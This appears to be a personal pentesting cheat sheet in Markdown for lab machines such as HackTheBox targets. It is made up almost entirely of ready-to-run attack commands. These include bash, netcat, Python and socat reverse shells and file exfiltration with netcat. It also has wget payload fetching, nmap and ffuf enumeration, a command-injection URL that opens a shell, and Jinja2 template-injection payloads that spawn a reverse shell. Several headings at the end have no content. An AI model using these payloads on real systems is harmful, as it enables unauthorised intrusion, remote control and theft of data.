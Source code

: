 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

# Useful Commands

## Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
python -m SimpleHTTPServer 8888
```

*Victim:*
```
wget http://10.10.10.10:8888/script.sh -O script.sh
```

* #### With SCP

*Copy from Victim*
```
scp user@10.10.10.77:/home/user/file.txt /home/kali/
```

*Copy to Victim* 
```
scp -r /home/kali/file.txt user@10.10.10.77:/home/user/
```

## Reverse shells

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/5555 0>&1'
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### With python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

## If Web Server

### Brute dir with extensions

* #### GoBuster

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

VHOST Discovery

* #### FuFF

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.77/ -H "Host:FUZZ.10.10.10.77"
```

### CSRF

Check CSRF

```
<a href="http://10.10.10.10:4444">MyURL</a>
```

Reverse shell

```
http://10.10.10.10/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.10.10'$IFS'4444')
```

### SSTI [:octocat:](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

![](https://gblobscdn.gitbook.com/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M7O4Hp6bOFFkge_yq4G%2F-M7OCvxwZCiaP8Whx2fi%2Fimage.png?alt=media&token=4b40cf58-5561-4925-bc86-1d4689ca53d1)

* #### Check Jinja2

```
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Reverse shell

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'").read()}}{%endif%}{%endfor%}
```

```
{{request.application.globals.builtins.import('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"').read()}}
```

* #### Check Twig

```
{{7*'7'}} would result in 49
{{dump(app)}}
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
